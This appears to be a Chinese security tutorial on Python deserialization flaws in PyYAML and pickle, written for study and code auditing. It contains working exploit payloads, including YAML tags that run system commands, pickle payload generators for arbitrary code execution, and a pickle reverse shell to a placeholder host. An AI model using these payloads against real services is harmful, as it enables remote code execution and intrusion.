

# python反序列化总结
本节要介绍的就是Python内置的几个用于进行数据序列化的模块：
|模块名称	| 描述 | 提供的api	|
|-----|-----|-----|
|json |用于实现Python数据类型与通用（json）字符串之间的转换|dumps()、dump()、loads()、load()|
|pickle	|用于实现Python数据类型与Python特定二进制格式之间的转换	|dumps()、dump()、loads()、load()|
shelve|	专门用于将Python数据类型的数据持久化到磁盘，shelve是一个类似dict的对象，操作十分便捷|	open()|
||||

## PyYAML反序列化漏洞
什么程序存在漏洞：
使用了PyYAML这个库并且使用了yaml.load而不是yaml.safe_load函数来解析yaml文件的程序

代码审计关键词：
* import yaml
* yaml.load(

已知相关漏洞：
* Remote Code Execution Vulnerability in Ansible-Vault Library. (CVE-2017-2809)
* https://pypi.python.org/pypi/ansible-vault/1.0.4 ansible-vault <=1.0.4存在这个漏洞，在1.0.5中完成了修复
* Remote Code Execution Vulnerability in Tablib. (CVE-2017-2810)

yaml和序列化

yaml和xml、json等类似，都是标记类语言，有自己的语法格式。各个支持yaml格式的语言都会有自己的实现来进行yaml格式的解析（读取和保存），其中PyYAML就是python的一个yaml库。
除了 YAML 格式中常规的列表、字典和字符串整形等类型转化外（基本数据类型），各个语言的 YAML 解析器或多或少都会针对其语言实现一套特殊的对象转化规则（也就是序列化和反序列化，这是关键点，是这个漏洞存在的前提)。比如：PyYAML 在解析数据的时候遇到特定格式的时间数据会将其自动转化为 Python 时间对象
* 序列化： 将数据结构或对象转换成二进制串（字节序列）的过程
* 反序列化：将在序列化过程中所生成的二进制串转换成数据结构或者对象的过程

将如下内容保存到sample.yml
```
date: !!str 2016-03-09
date1:  2016-03-09
weekday: Wednesday
weather: sunny
```
然后在同一目录下运行如下python 代码：
```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'hhhh'
__github__ = 'https://github.com/'
import yaml
print(yaml.load(file('sample.yml', 'r')))
```
可以看到如下结构，有"!!str"强制类型转换的，就成了字符串格式；没有类型转换的就是python中datetime.date对象。

### 代码执行PoC构造的尝试
要实现代码执行，就需要序列化和反序列的内容中出现该编程语言中的对象（函数、类），因为的对象的反序列化，是在构建一个对象的实例（实例化的过程）。如果一个对象中有函数的定义，有可执行代码，那么实例化后再通过方法调用或者其他的途径才能使其中的代码到执行。普通数据类型的反序列化只是变量相关的初始化、赋值等操作，不会涉及到逻辑处理的代码块，所有不会有代码的执行！（普通数据类型 = 数据，对象= 函数代码+数据）。
通过跟踪$PYTHON_HOME/lib/site-packages/yaml/constructor.py文件，查看 PyYAML 源码可以得到其针对 Python 语言特有的标签解析的处理函数对应列表，其中有三个和对象相关：
```
!!python/object:          =>  Constructor.construct_python_object
!!python/object/apply:    =>  Constructor.construct_python_object_apply
!!python/object/new:      =>  Constructor.construct_python_object_new
```
通过如下代码，来序列化test类中的内容：
```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
import yaml
import os
class test:
    def __init__(self):
        os.system('calc.exe')
payload =  yaml.dump(test())
fp = open('simple.yml','w')
fp.write(payload)
```
可以看到simple.yml中写入的内容如下：
!!python/object:yaml_gen_poc.test {}
再运行yaml_verify.py来验证：
```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'haha'
__github__ = 'https://github.com/'
__filename__ = "yaml_verify.py"
import yaml
from yaml_gen_poc import test 
yaml.load(file('simple.yml', 'r'))
```
构造通用payload
那么我们怎样消除这个依赖呢？就是将其中的类、或者函数 换成python标准库中的类或者函数。
直接修改yml文件为：
```python
!!python/object:os.system ["calc.exe"]
```
再运行，失败（显示参数未传递：TypeError: system() takes exactly 1 argument (0 given)），尝试查看源码、并变换yml文件中语句格式，均未成功！（疑难点）。
修改为以下2种均成功，通过源码得知，new其实是调用了apply，他们的不同的地方是创建对象的方式，这里可以大致认为它们是一样的。
```python
!!python/object/apply:os.system ["calc.exe"]
!!python/object/new:os.system ["calc.exe"]
```
既然解决了依赖问题，那我们就尝试构建一些有用的poc吧，从官方标准库里找可以用来执行命令的函数：https://docs.python.org/2/library/index.html
```python
!!python/object/apply:subprocess.check_output [[calc.exe]]
!!python/object/apply:subprocess.check_output ["calc.exe"]
!!python/object/apply:subprocess.check_output [["calc.exe"]]
!!python/object/apply:os.system ["calc.exe"]
!!python/object/new:subprocess.check_output [["calc.exe"]]
!!python/object/new:os.system ["calc.exe"]
```
## Pickle的任意代码执行漏洞

 Pickle的典型应用场景
一般在什么场景下需要用到Pickle？
* 1. 通常在解析认证token，session的时候。（如果你知道更多，欢迎留言补充，感谢！）现在很多web都使用redis、mongodb、memcached等来存储session等状态信息。P神的文章就有一个很好的redis+python反序列化漏洞的很好例子：https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html。
* 2. 可能将对象Pickle后存储成磁盘文件。
* 3. 可能将对象Pickle后在网络中传输。
* 4. 可能参数传递给程序，比如sqlmap的代码执行漏洞
```
python sqlmap.py --pickled-options "Y29zCnN5c3RlbQooUydkaXInCnRSLg=="
```
### 执行系统命令的Payload
首先构造一个简单的包含漏洞的代码。后续的验证过程中，将生成的Payload放到poc.pickle文件中，使用该代码来读取PoC验证效果（我将其保存为dopickle.py）。
```python
__author__ = 'hahah'
import pickle
pickle.load(open('./poc.pickle'))
```
值得注意的是，pickle有load和loads2个方法，load需要的参数是文件句柄，loads所需要的参数是字符串。
pickle允许任意对象去定义一个__reduce__方法来申明怎么序列化这个对象。这个方法返回一个字符串或者元组来描述当反序列化的时候该如何重构。使用os.system执行命令的payload，保存为pickle_poc_gen.py。
```python
#!/usr/bin/env python
#coding: utf-8
__author__ = 'bit4'
import cPickle
import os
class genpoc(object):
    def __reduce__(self):
        s = """calc.exe"""  #要执行的命令
        return os.system, (s,)        #os.system("echo test >poc.txt")
e = genpoc()
poc = cPickle.dumps(e)
cPickle.loads(poc)
print urllib.quote(poc)
```
输出内容，也就是Payload：
```
cnt
system
p1
(S'echo test >poc.txt'
p2
tRp3
.
```
url编码后的payload，用于URL中传递给web服务器：
cnt%0Asystem%0Ap1%0A%28S%27echo%20test%20%3Epoc.txt%27%0Ap2%0AtRp3%0A

反弹shell:
```python
import pickle
import os
class A(object):
    def __reduce__(self):
        a = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xxx.xxx.xxx.xxx",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'"""
        return (os.system,(a,))    
a=A()
result = pickle.dumps(a)
pickle.loads(result)
```
### 执行任意python代码的payload
我们的目标是实现任意代码执行，所以我们要序列化的对象成了code类型，但是pickle是不能序列化code对象的。
但幸运的是，从python2.6起，包含了一个可以序列化code对象的模块–Marshal。由于python可以在函数当中再导入模块和定义函数，所以我们可以将自己要执行的代码都写到一个函数里foo()， 所以有了如下代码：
把这段代码转换成pickle后的格式，需要了解pickle的数据格式和指令。详细的转换过程可以参考：https://www.cs.uic.edu/~s/musings/pickle/
```
• c：读取新的一行作为模块名module，读取下一行作为对象名object，然后将module.object压入到堆栈中。
• (：将一个标记对象插入到堆栈中。为了实现我们的目的，该指令会与t搭配使用，以产生一个元组。
• t：从堆栈中弹出对象，直到一个“(”被弹出，并创建一个包含弹出对象（除了“(”）的元组对象，并且这些对象的顺序必须跟它们压入堆栈时的顺序一致。然后，该元组被压入到堆栈中。
• S：读取引号中的字符串直到换行符处，然后将它压入堆栈。
• R：将一个元组和一个可调用对象弹出堆栈，然后以该元组作为参数调用该可调用的对象，最后将结果压入到堆栈中。
• .：结束pickle。
```
**说人话：**
```
• c：接下来的2行内容类似于，os.system、urllib.unquote是module.object的形式。
• (：就是左括号
• t：相当于右扩号
• S：代表本行后面的内容是String，即字符串。
• R：执行紧靠自己左边的一个括号对中的内容，即( 和他t直接的内容。
• .：点号结束pickle。
```

最终的可以执行任意代码的payload生成器（第一种）,foo()函数中的部分是你应该自己编写替换的代码：
```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
import marshal
import base64
import cPickle
import urllib
def foo():#you should write your code in this function
    import os
    def fib(n):
        if n <= 1:
            return n
        return fib(n-1) + fib(n-2)
    print 'fib(10) =', fib(10)
    os.system('echo anycode >>poc.txt')
try:#尝试使用cPickle来序列号代码对象
    cPickle.dumps(foo.func_code)
except Exception as e:
    print e #TypeError: can't pickle code objects
code_serialized = base64.b64encode(marshal.dumps(foo.func_code))
print code_serialized

#为了保证code_serialized中的内容得到执行，我们需要如下代码
#(types.FunctionType(marshal.loads(base64.b64decode(code_serialized)), globals(), ''))()
payload =  """ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'%s'
tRtRc__builtin__
globals
(tRS''
tR(tR.""" % base64.b64encode(marshal.dumps(foo.func_code))
print "------------------------------------------------"
print payload
fp =open("poc.pickle","w")
fp.write(payload)
print "------------------------------------------------"
print urllib.quote(payload)
```
注意：用于payload和上面一样还是需要url编码后的。
### 终极payload生成器
分析到最后，发现其实有老外已经做过更加底层，更加详细的分享，并且也提供了Poc生成脚本
参考：http://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_WP.pdf

该工具中包含了大量的成熟payload，有了以上知识，不难理解其中的代码，也可以自己进行修改了。
地址：https://github.com/sensepost/anapickle

## 参考
【0】https://www.leavesongs.com/PENETRATION/code-breaking-2018-python-sandbox.html<br>
【1】http://www.polaris-lab.com/index.php/archives/375/<br>
【2】http://www.polaris-lab.com/index.php/archives/178/<br>
【3】http://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BPython%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/<br>
